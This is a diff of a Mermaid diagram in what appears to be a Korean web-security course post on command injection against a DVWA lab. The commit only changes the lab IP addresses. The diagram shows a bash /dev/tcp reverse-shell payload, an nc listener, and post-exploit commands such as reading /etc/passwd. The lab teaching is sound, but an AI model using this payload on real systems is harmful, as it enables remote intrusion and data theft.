

The third of 4 diagrams in _posts/1.응용강의/websecurity/2026-06-01-websec-08-command-injection.md (sbaek100/sbaek100.github.io), drawn with Mermaid before and after one commit. The commit also changed other lines of this file and 518 other files, not shown here.

````diff
--- a/_posts/1.응용강의/websecurity/2026-06-01-websec-08-command-injection.md
+++ b/_posts/1.응용강의/websecurity/2026-06-01-websec-08-command-injection.md
@@ -311,12 +311,12 @@
 ```mermaid
 sequenceDiagram
-    participant K as 공격자 (Kali 192.168.0.10)
-    participant D as DVWA 서버 (Ubuntu 192.168.0.30)
+    participant K as 공격자 (Kali 192.168.56.10)
+    participant D as DVWA 서버 (Ubuntu 192.168.56.30)
 
     K->>K: nc -lvnp 4444 (리스너 대기)
     K->>D: DVWA Command Injection에 Reverse Shell 입력
-    D->>D: bash -i >& /dev/tcp/192.168.0.10/4444 0>&1 실행
+    D->>D: bash -i >& /dev/tcp/192.168.56.10/4444 0>&1 실행
     D->>K: TCP 4444 포트로 아웃바운드 연결
     K->>K: 쉘 수신 완료 (www-data@ubuntu)
     K->>D: id, whoami, cat /etc/passwd 등 명령 실행
 ```
````
